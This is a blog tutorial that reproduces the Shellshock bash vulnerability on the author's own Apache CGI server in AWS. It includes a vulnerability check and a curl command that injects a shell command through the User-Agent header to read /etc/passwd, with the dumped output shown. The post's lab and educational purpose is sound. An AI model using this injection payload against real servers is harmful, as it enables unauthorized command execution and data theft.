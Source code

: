 ```yaml
---
layout: post
title: Shellshock DIY
category: posts
image: shellshock/header.png
---
```


When news of Shellshock first broke, the main attack vector was applications running on Apache servers via cgi. Now I don't have any apache servers I maintain and if I did I probably wouldn't be running them with CGI (just not my preference). However I wanted to try out this bug and I didn't want to do so in a malicious manner; I simply wanted to see what it did.

So let's go create an EC2 instance on AWS and get to work. My preference is to use Ubuntu because I know it best and I'm able to find solutions to issues I encounter very quickly.

After our instance is up and running and we've ssh'd into it, the first thing we'll do is see if bash is vulnerable.

{% highlight bash %}
~ ubuntu@ip-10-0-0-153
❯ env X="() { :;} ; echo busted" /bin/bash -c "echo completed"
busted
completed
{% endhighlight %}

Oh heck yeah, it totally is.

(Side note: I'm using an old AWS image I made a few months ago. I believe Amazon patched bash on all their default images. If bash is already patched on your machine my next suggestion is to find a vagrant image that isn't patched yet. If you can't, leave a comment below. I may be able to post a tutorial on how to compile an old, vulnerable version of bash and replace the patched one on your box; for science!) 

Ok next step: installing apache and enabling mod_cgi.

{% highlight bash %}
sudo apt-get install apache2
sudo a2enmod cgi
{% endhighlight %}

We need to tell apache when to use cgi. We'll do that by adding the following somewhere in the config of a site in our enabled virtual hosts folder (`/etc/apache2/sites-enabled`; in our case the exact file is `/etc/apache2/sites-enabled/000-default.conf`):

{% highlight apache %}
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
<Directory "/usr/lib/cgi-bin">
  AllowOverride None
  Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
  Order allow,deny
  Allow from all
</Directory>
{% endhighlight %}


My complete apache conf file for the virtual host we'll be using looks like this:

{% highlight apache %}
<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html

  ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
  <Directory "/usr/lib/cgi-bin">
    AllowOverride None
    Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
    Order allow,deny
    Allow from all
  </Directory>

  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
{% endhighlight %}


Add a file called `poc.cgi` to `/usr/lib/cgi-bin` with the following contents:

{% highlight perl %}
#!/bin/bash

echo "Content-type: text/html"
echo ""

echo '<html>'
echo '<head>'
echo '<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">'
echo '<title>PoC</title>'
echo '</head>'
echo '<body>'
echo '<pre>'
/usr/bin/env
echo '</pre>'
echo '</body>'
echo '</html>'

exit 0
{% endhighlight %}

Source: https://www.invisiblethreat.ca/2014/09/cve-2014-6271/

Note: you may need to change the permissions of this file and directory. If you get a 403 error, try `sudo chmod 755 -R /usr/lib/cgi-bin`.

Now let's restart apache.

{% highlight bash %}
sudo services apache2 restart
{% endhighlight %}


If everything went according to plan, we should be able to exploit ourselves; Let's try it out!

{% highlight bash %}
~
❯ curl -A "() { foo;};echo;/bin/cat /etc/passwd" http://[Your Server IP]/cgi-bin/poc.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/zsh

{% endhighlight %}

Aww yiss.
